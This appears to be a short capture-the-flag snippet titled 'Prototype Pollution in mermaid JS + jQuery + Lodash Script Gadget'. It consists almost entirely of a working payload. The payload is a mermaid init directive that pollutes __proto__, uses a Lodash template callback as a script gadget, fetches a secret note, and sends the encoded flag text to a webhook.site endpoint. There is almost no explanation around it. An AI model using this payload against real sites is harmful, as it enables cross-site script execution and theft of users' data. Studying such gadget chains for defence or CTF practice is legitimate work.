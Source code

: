 ### Prototype Pollution in mermaid JS + jQuery + Lodash Script Gadget

```
```mermaid

%%{init: { '__proto__': {'sourceURL': '\u2028\u2029fetch(`https://hackus.xyz/s/secret-note`).then(x=>x.text()).then( x=> fetch(`https://webhook.site/***?flag=`+btoa(x.substr(x.indexOf(`CTF-BR`),100))))','dataType':'script','url':['https://vimeo.com/api/oembed.json?url=https%3A//vimeo.com/286898202&width=480&height=360&callback=_.template']}} }%%
sequenceDiagram
Alice->>Bob: Hi Bob
Bob->>Alice: Hi Alice

.```

```
